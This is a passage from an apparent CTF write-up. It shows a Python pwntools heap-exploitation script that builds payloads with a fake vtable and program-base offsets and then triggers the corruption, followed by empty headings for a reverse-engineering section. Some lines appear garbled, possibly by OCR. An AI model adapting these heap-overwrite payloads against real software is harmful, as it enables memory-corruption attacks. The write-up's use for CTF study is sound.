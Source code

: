 ```python
			payload2 += p64(0) + p64(0)
			payload2 += p64(8) + '\x48'
			fill(0, payload2 + '\n')
			fill(3, '\x61\x00\n')


			payload3 = p64(0) + p64(0)
			payload3 += p64(0xf8) + p64(prog_base+0x202050)
			payload3 += p64(0) + p64(0)
			payload3 += p64(0) + p64(0)
			payload3 += p64(8) + '\x58'
			fill(0, payload3 + '\n')
			fill(3, '\x10\x75\n')


			payload4 = p64(0) + p64(0)
			payload4 += p64(0xf8) + p64(prog_base+0x202050)
			payload4 += p64(0) + p64(0)
			payload4 += p64(0) + p64(0)
			payload4 += p64(0x1000) + '\x60'
			fill(0, payload4 + '\n')
			fake_vtable = prog_base + 0x202070
			payload5 = p64(2) + p64(3)
			payload5 = payload5.ljust(0xb8,'\x00')
			payload5 += p64(fake_vtable)

			fill(3, payload5 + '\n')

			payload6 = p64(0) + p64(0)
			payload6 += p64(0xf8) + p64(prog_base+0x202050)
			payload6 += p64(mmap_addr) * 8
			fill(0, payload6 + '\n')

			#now trigger
			sleep(0.1)
			sl(1)
			sla('Size', 1)
			sleep(0.1)
			if ctx.connected():
			irt()
		except EOFError:
			pass
```

<a name="Re"></a>
## Re

<a name="music"></a>
### music
